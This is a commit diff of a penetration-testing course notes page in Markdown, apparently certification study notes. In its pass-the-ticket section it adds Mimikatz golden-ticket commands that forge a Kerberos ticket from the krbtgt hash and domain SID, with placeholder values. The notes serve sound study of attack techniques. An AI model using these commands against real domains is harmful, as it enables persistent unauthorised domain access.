

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -115,6 +115,9 @@ PtH
 
 PtT
 ---
+    取得krbtgt的NTLM HASH&SID
     kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt
     misc::cmd
     klist add_bind lpt.com server2019.lpt.com
+    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
+![image](https://github.com/user-attachments/assets/24f1ebad-a84c-4a3a-a530-a711c97a9dfe)
```
